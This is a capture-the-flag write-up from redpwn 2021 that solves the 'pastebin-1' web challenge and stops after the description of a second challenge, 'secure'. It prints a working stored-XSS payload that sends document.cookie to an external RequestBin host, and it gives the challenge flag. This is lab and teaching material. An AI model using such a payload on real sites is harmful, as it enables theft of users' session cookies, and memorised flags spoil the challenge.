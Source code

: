 *2021-07-09*
#ctf-writeup 

Link: https://ctf.redpwn.net/

***

# pastebin-1
**Category: web**
**Author: BrownieInMotion**

## Description
Ah, the classic pastebin. Can you get the admin's cookies?

## Solution
For this challenge, we are given two links. One is a mock pastebin website where you can enter text, submit it, and be given a link to where it persists. The second link is a website that allows you to redirect a bot to a specific URL.

Based on the nature of the websites and the description it's fairly clear that this is a classic XXS challenge. The mock pastebin website allows JavaScript that we write to be injected into the DOM of whoever visits the page. We can exploit this to steal a person's cookie. First, I created a public [RequestBin](https://requestbin.com/) as an endpoint for our exploit. Then I created a new paste with the following content:

```html
<script>
document.write('<img src="https://en2enweozjgy8.x.pipedream.net?c='+document.cookie+'" />');
</script>
```

I then took the link to the newly created paste and fed it to the admin bot. The flag then appeared as a GET parameter in the RequestBin.
![[../Files/inspect-me-requestbin.png]]

When the admin bot visits our link the JavaScript within the `<script>` tag gets run. The script tries to create an image with the source of our RequestBin and the admin's cookie as GET parameter. The admin bot will then make a request to our endpoint which we can capture, thus exposing the cookie (flag).

## Flag
`flag{d1dn7_n33d_70_b3_1n_ru57}`

***

# secure
**Category: web**
**Author: BrownieInMotion**

## Description
Just learned about encryption—now, my website is unhackable!
